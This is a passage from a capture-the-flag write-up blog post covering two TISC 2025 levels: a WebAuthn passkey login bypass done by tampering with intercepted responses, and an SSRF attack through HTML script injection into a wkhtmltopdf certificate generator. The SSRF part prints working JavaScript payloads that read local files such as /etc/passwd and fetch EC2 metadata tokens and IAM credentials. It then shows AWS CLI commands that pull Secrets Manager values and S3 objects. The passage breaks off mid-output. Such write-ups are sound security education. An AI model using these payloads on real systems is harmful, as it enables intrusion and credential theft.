This is a continuation of the TISC 2025 Writeups. Please read from [Part 1](/blog/posts/tisc2025-writeup1).

Here are all of the Levels that I completed:

1. [LEVEL 1 - Target Reference Point 🛰️ GEOINT](/blog/posts/tisc2025-writeup1#level-1---target-reference-point-%EF%B8%8F-geoint)
2. [LEVEL 2 - The Spectrecular Bot](/blog/posts/tisc2025-writeup1#level-2---the-spectrecular-bot)
3. [LEVEL 3 - Rotary Precision](/blog/posts/tisc2025-writeup1#level-3---rotary-precision)
4. [LEVEL 4 - Spectre Memory](/blog/posts/tisc2025-writeup1#level-4---spectre-memory)
5. [LEVEL 5 - SYNTRA](/blog/posts/tisc2025-writeup1#level-5---syntra)
6. [LEVEL 6 - Passkey](#level-6---passkey)
7. [LEVEL 7A - Santa ClAWS](#level-7a---santa-claws)
8. [LEVEL 8A - VirusVault](#level-8a---virusvault)

Here are [my final thoughts](#my-final-thoughts).

---

## LEVEL 6 - Passkey

### Description

Our web crawler has flagged a suspicious unlisted web service that looks to be a portal where SPECTRE operates from. It does not seem to rely on traditional authentication methods, however.

This service is open for anyone to sign up as a user. All you need is a unique username of your choosing, and passkey.

Go to \[challenge instance\] to begin.

Good luck, and may your passkeys guide you to victory!

### Solution

#### Analysis

Registered as a new user with a passkey associated with it.



There are two dashboards.

- `/member`
- `/admin`



However, my account does not have admin privileges. Thus, I got routed into `/notadmin`.


Here are the auth endpoints I've found:

- `/register`
- `/register/auth`
- `/login`
- `/login/auth`
- `/logout`

Full registration workflow.

1. GET 200 `/register`
   There is a `form` with a `username` field and submit it to do a POST request to the next endpoint.
2. POST 200 `/register/auth`
   The form submit does a POST request with a script running WebAuthn `createPasskey()`.
   The function fills up a credentials form and submits the `registration-form` to the next endpoint.
3. POST 302 `/register`
   Once the POST request is submitted, a redirect request is done to `/`.
   This request also consists of a persistent `passkey.tisc` cookie value.

Full login flow.

1. GET 200 `/login`
   There is a `form` with a `username` field and submit it to do a POST request to the next endpoint.
2. POST 200 `/login/auth`
   The form submit does a POST request with a script running WebAuthn `startWebAuthnAuth()`.
   The function fills up a credentials form and submits the `auth-form` to the next endpoint.
3. POST 302 `/login`
   Once the POST request is submitted, a redirect request is done to `/`.
   This request also consists of a persistent `passkey.tisc` cookie value.

#### Attempted

Attempted to intercept and modify the response of the `/register/auth` and changed the username in the script to `admin` to create an admin passkey.




However, it did not redirect me to the dashboard. Attempting to make use of the created passkey did not work out.


Obtaining the `credId_b64url` (from registration) and replacing the credential ID from the login auth page gave the response of `Invalid passkey credential`.



I also attempted to make use of [WebDevAuthn](<[https://gramthanos.github.io/WebDevAuthn/](https://gramthanos.github.io/WebDevAuthn/)>) extension to make things easier for myself. However, due to a race condition with Windows Hello Authenticator and how the credential payload is created, I could not make use of **WebDevAuthn**.

#### Successful Attempt

I basically did the same thing but instead of modifying the `const username` variable, I modified the passkey.

1. Registered a new account at `/register`. In this case I created an account `admin2`. (I didn't expect this account to not exist yet LOL)

   Before submitting the form, I turned on Intercept in Burpsuite. Ensure that **Settings > Proxy > Response interception rules** is turned on cause we are modifying that.

   
   
   

2. In the intercepted **RESPONSE** of `/register/auth`, modify the credential creation usernames and replace them with `admin`. Do not modify the actual `const username` variable.
   
   

3. Within your HTTP History, find the `302 POST /register` and copy the attestation object.
   
4. Decode to Base64 then further decode the `authData` using `cbor2`. Afterwards, copy the value in `credId_b64url`.

```json
{
  "attStmt": {},
  "authData": "xwgw9416p0vIny4ypoanXkcXJdFxRlkGzC1FwfdONH9FAAAAAAAAAAAAAAAAAAAAAAAAAAAAICVzaHquRA5OI2UPjRZUfvBc3E5gWnW3Te3He1vj-BX8pQECAyYgASFYIOs7NkPDcBnWWvxJSBaU5amFFcrJUs4gQvyAKzTEdqHKIlggWCORsIolS46_fFRk5yTtkEvwaQamYu1Zr9sRf7yydqE",
  "fmt": "none"
}
```

```json
{
  "aaguid": "00000000000000000000000000000000",
  "cosePublicKey_hex": "a5010203262001215820eb...",
  "counter": 0,
  "credIdLen": 32,
  "credId_b64url": "JXNoeq5EDk4jZQ-NFlR-8FzcTmBadbdN7cd7W-P4Ffw",
  "flags": 69,
  "rpIdHash": "c70830f78d7aa74bc89..."
}
```

5. Log out and go to `/login` and enter the username `admin`.

   Before submitting the form, I turned on Intercept in Burpsuite once again.

   
   

6. Modified the `allowCredentials` in the intercepted **RESPONSE** and pasted in the `credId_b64url` from Step 4.
   
   

7. Now I have access to the `/admin` endpoint, getting me the flag.
   

### Flag

```
TISC{p4ssk3y_is_gr3a7_t|sC}
```

---

## LEVEL 7A - Santa ClAWS

### Description

We’ve intercepted traffic between Spectre’s internal networks and a mysterious seasonal web service called Santa ClAWS Certificate Generator — a portal used to issue “Naughty” or “Nice” certificates for festive felines.

This seemingly innocent site may be hiding something deeper — a covert cloud operations backend.

Scratch beneath the surface. Unravel the yarn of lies. Every cat may hold a clue.

### Solution

#### Preliminary Analysis

There is a form that I can fill to generate a certificate. It does a POST request to `/generate-flyer` and I receive a "CERTIFIED GOOD KITTY" PDF file.



Doing a GET request to the same endpoint `/generate-flyer` returns me back a lot of 'None' values.


I went ahead and tried using HTML elements and set the description to:

```html
<script>
  var x = new XMLHttpRequest();
  x.onreadystatechange = function () {
    if (x.readyState === 4) {
      document.body.innerHTML = "<pre>" + x.responseText + "</pre>";
    }
  };
  x.open("GET", "file:///etc/passwd", true);
  x.send();
</script>
```

It seems that the HTML response got successfully parsed, which means that there is no sanitization.


The website is run on an AWS EC2 instance after doing an IP lookup. The challenge description hinted at Cloud being the focus point of the challenge, so I will start focusing my efforts into Cloud SSRF techniques.


The next section will be checking whether it is vulnerable to Cloud-based SSRF techniques.

#### SSRF Analysis

Here are some posts I read before attempting to perform SSRF:

```cardlink
url: https://www.yassineaboukir.com/blog/exploitation-of-an-SSRF-vulnerability-against-EC2-IMDSv2/
title: "Exploitation of an SSRF vulnerability against EC2 IMDSv2"
description: "The CapitalOne security breach back in 2019 was quite an interesting incident that made news headlines as the attackers were able to leak customers’ PII as well as credit card information."
host: www.yassineaboukir.com
favicon: https://www.yassineaboukir.com/images/favicon-32x32.png
image: https://www.yassineaboukir.com//images/headshot.jpg
```

```cardlink
url: https://infosecwriteups.com/exploiting-ssrf-in-pdf-html-injection-basic-and-blind-047fec5317ae
title: "Exploiting SSRF in PDF HTML Injection: Basic and Blind"
description: "On a recent application assessment, I encountered an endpoint that would take HTML from user input and generate a PDF from it. I knew that…"
host: infosecwriteups.com
favicon: https://miro.medium.com/v2/resize:fill:256:256/1*A6LVtmXcJ3QJy_sdCyFx1Q.png
image: https://miro.medium.com/v2/resize:fit:793/1*okcla5td6zy4219SBHvS5A.png
```

```cardlink
url: https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-pdf-generators-a-complete-guide-to-finding-ssrf-vulnerabilities-in-pdf-generators
title: "Exploiting PDF generators: A complete guide to finding SSRF vulnerabilities in PDF generators"
description: "PDF generators are commonly implemented in applications. Developers tend to use these components to generate documents based on dynamic data provided from the database for example. Unfortunately, not..."
host: www.intigriti.com
favicon: https://www.datocms-assets.com/85623/1720084354-favicon.svg?auto=format&h=16&w=16
image: https://www.datocms-assets.com/85623/1738002026-intigriti-blog-tools-featured-exploiting-pdf-generators.jpg?auto=format&fit=max&w=1200
```

I then tested a bunch of HTML script injections that allows me to:

1. copy and paste as text (i.e. responses which are in HTML are not interpreted as such)
2. **full** response text.

I ended up going with this script.

```html
<script>
  var x = new XMLHttpRequest();
  x.onreadystatechange = function () {
    if (x.readyState === 4) {
      document.open();
      document.write(
        '<html><body style="font-size: 1px"><pre id="code"></pre></body></html>',
      );
      document.close();
      document.getElementById("code").textContent = x.responseText;
    }
  };
  x.open("GET", "<web/file>", true);
  x.send();
</script>
```

Here are some test queries I did that aren't particularly useful for this CTF.
`file:///etc/os-release`


`file:///etc/hostname`


`file:///var/lib/cloud/data/instance-id`


#### Website and Proxy Analysis (through SSRF)

Here are some files that helped in the CTF process.
`file:///var/log/cloud-init.log`

_A 17-page PDF showing DEBUG logs_

Found app location in the `file:///var/log/syslog`


And from there also found the exact version of the `wkhtmltopdf` used.

```
wkhtmltopdf amd64 0.12.6-2build2
```

Thus, managing to get the `/home/ubuntu/app/app.py`


The **CORS** code is a hint implying that I am supposed to make some IMDSv2 request to extract metadata.

```python
CORS(app, resources={r"/*": {"origins": "*"}},
    allow_headers=["X-aws-ec2-metadata-token-ttl-seconds"],
    methods=["GET","POST","PUT","OPTIONS"])
```

However, attempting to make use of the magic IP with `http://169.254.169.254/latest/api/token` gave me a status `0`, implying that my request was blocked at the network-level.

After further digging, I found that I could read the file `/var/log/auth.log`. Within there I found some services that are being executed.

```
2025-09-23T17:09:28.130733+00:00 ip-172-31-43-25 sudo: root : PWD=/home/ubuntu/app ; USER=root ; COMMAND=/usr/bin/ln -s /etc/nginx/sites-available/imds_proxy /etc/nginx/sites-enabled/
```

I found that the NGINX proxy had defined an IMDSv2 proxy at `/etc/nginx/sites-available/imds_proxy`.

```nginx
server {
    listen 45198;
    access_log /var/log/nginx/imds_access.log combined;
    add_header 'Access-Control-Allow-Origin' '*' always;
    add_header 'Access-Control-Allow-Methods' 'GET, OPTIONS, PUT' always;
    add_header 'Access-Control-Allow-Headers' 'X-Requested-With, Content-Type, X-aws-ec2-metadata-token, X-aws-ec2-metadata-token-ttl-seconds' always;
    location / {
        proxy_pass http://169.254.169.254/;
        proxy_http_version 1.1;
        proxy_set_header Host 169.254.169.254;
        proxy_set_header Connection "";
        proxy_set_header X-aws-ec2-metadata-token $http_x_aws_ec2_metadata_token;
        proxy_connect_timeout 60s;
        proxy_read_timeout 120s;
        proxy_send_timeout 120s;
        if ($request_method = OPTIONS) {
            add_header 'Access-Control-Allow-Origin' '*' always;
            add_header 'Access-Control-Allow-Methods' 'GET, OPTIONS, PUT' always;
            add_header 'Access-Control-Allow-Headers' 'X-Requested-With, Content-Type, X-aws-ec2-metadata-token, X-aws-ec2-metadata-token-ttl-seconds' always;
            return 204;
        }
    }
}
```

Using the internal proxy, I managed to get the token.

```html
<script>
  let xhr = new XMLHttpRequest();

  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      document.open();
      document.write(
        "<html><body><pre>" + xhr.responseText + "</pre></body></html>",
      );
      document.close();
    }
  };

  xhr.open("PUT", "http://127.0.0.1:45198/latest/api/token", true);
  xhr.setRequestHeader("X-aws-ec2-metadata-token-ttl-seconds", "21600");
  xhr.send();
</script>
```

Now that I have this, I get make a GET request for the credentials to make use of AWS CLI with.

```html
<script>
  const token = "AQAEANXL_v1H-g6xqHtJMk242Ck11hRJ9JL2d9EJHWR3XjPDlrWN3Q==";

  let xhr = new XMLHttpRequest();

  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      document.open();
      document.write(
        "<html><body><pre>" + xhr.responseText + "</pre></body></html>",
      );
      document.close();
    }
  };

  xhr.open(
    "GET",
    "http://127.0.0.1:45198/latest/meta-data/iam/security-credentials/",
    true,
  );
  xhr.setRequestHeader("X-aws-ec2-metadata-token", token);
  xhr.send();
</script>
```

The script above returns the role, in this case it is `claws-ec2`. With this, we can query for the credentials.

```html
<script>
  const token = "AQAEANXL_v1H-g6xqHtJMk242Ck11hRJ9JL2d9EJHWR3XjPDlrWN3Q==";
  const role = "claws-ec2";

  let xhr = new XMLHttpRequest();

  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      document.open();
      document.write(
        "<html><body><pre>" + xhr.responseText + "</pre></body></html>",
      );
      document.close();
    }
  };

  xhr.open(
    "GET",
    "http://127.0.0.1:45198/latest/meta-data/iam/security-credentials/" +
      encodeURIComponent(role),
    true,
  );
  xhr.setRequestHeader("X-aws-ec2-metadata-token", token);
  xhr.send();
</script>
```

Here is an example of the output:

```json
{
  "Code": "Success",
  "LastUpdated": "2025-09-24T08:13:29Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIAXYKJ...",
  "SecretAccessKey": "z6h0kmPqYkGhLwCv9...",
  "Token": "IQoJb3JpZ2luX2VjE...",
  "Expiration": "2025-09-24T14:25:17Z"
}
```

#### claws-ec2: AWS CLI

I exported the credentials to my current shell environment.

```shell
export AWS_ACCESS_KEY_ID=...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
```

Called for the identity to make sure that I have typed in the credentials correctly.

```shell
$ aws sts get-caller-identity
{
    "UserId": "AROAXYKJQ7ESLMFI4GBVL:i-0dd33406f2f2b2acd",
    "Account": "533267020068",
    "Arn": "arn:aws:sts::533267020068:assumed-role/claws-ec2/i-0dd33406f2f2b2acd"
}
```

I tried listing the contents of the secretsmanager and found some `internal_web_api_key`.

```shell
$ aws secretsmanager list-secrets --region ap-southeast-1 --max-results 20
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:ap-southeast-1:533267020068:secret:internal_web_api_key-mj8au2-U5o6lT",
            "Name": "internal_web_api_key-mj8au2",
            "Description": "To access internal web apis",
            "LastChangedDate": "2025-09-24T01:06:33.419000+08:00",
            "LastAccessedDate": "2025-09-24T08:00:00+08:00",
            "SecretVersionsToStages": {
                "terraform-20250923170633383800000003": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2025-09-24T01:06:31.528000+08:00"
        }
    ]
}
```

The `api_key` is `Uqv2JgVFhKtTsNUTyeqDkmwcjgWrar8s`, but so far there is no internal web service that is making use of this API key.

```shell
$ aws secretsmanager get-secret-value --secret-id internal_web_api_key-mj8au2 --region ap-southeast-1
{
    "ARN": "arn:aws:secretsmanager:ap-southeast-1:533267020068:secret:internal_web_api_key-mj8au2-U5o6lT",
    "Name": "internal_web_api_key-mj8au2",
    "VersionId": "terraform-20250923170633383800000003",
    "SecretString": "{\"api_key\":\"Uqv2JgVFhKtTsNUTyeqDkmwcjgWrar8s\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-09-24T01:06:33.415000+08:00"
}
```

Next, I queried the S3 buckets to see what I can find.

Within the `user-data` (from the metadata SSRF) reveals some endpoint to an S3 bucket.

```shell
#!/bin/bash

# Install packages
sudo apt update -y
sudo apt install -y wkhtmltopdf nginx unzip python3-pip python3.12-venv

url "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install # Define variables APP_DIR="/home/ubuntu/app"

ZIP_FILE="app.zip"
S3_BUCKET="s3://claws-web-setup-bucket"
VENV_DIR="$APP_DIR/venv"

# Fetch ZIP from S3
aws s3 cp "$S3_BUCKET/$ZIP_FILE"
/home/ubuntu/"$ZIP_FILE"

# Unzip and set up app
unzip /home/ubuntu/"$ZIP_FILE" -d /home/ubuntu/ rm "$ZIP_FILE" cd "$APP_DIR"

# Set up Python virtual environment
python3 -m venv $VENV_DIR
source $VENV_DIR/bin/activate
pip install --upgrade pip
pip install -r requirements.txt

# Create Gunicorn
systemd service cat > /etc/systemd/system/santaclaws.service < /etc/nginx/sites-available/webapp < /etc/nginx/sites-available/imds_proxy <> /etc/environment

# Reload Nginx to apply both configurations
sudo nginx -t && sudo systemctl reload nginx

# Delete ZIP from S3
aws s3 rm "$S3_BUCKET/$ZIP_FILE"
```

I managed to find the first piece of the flag `flag1.txt` in the S3 bucket `claws-web-setup-bucket`. I downloaded `flag1.txt` and it only showed the first part of the flag.

```shell
$ aws s3api list-objects-v2 --bucket claws-web-setup-bucket --max-items 100 --region ap-southeast-1 2>&1 | sed -n '1,200p'
{
    "Contents": [
        {
            "Key": "app.zip",
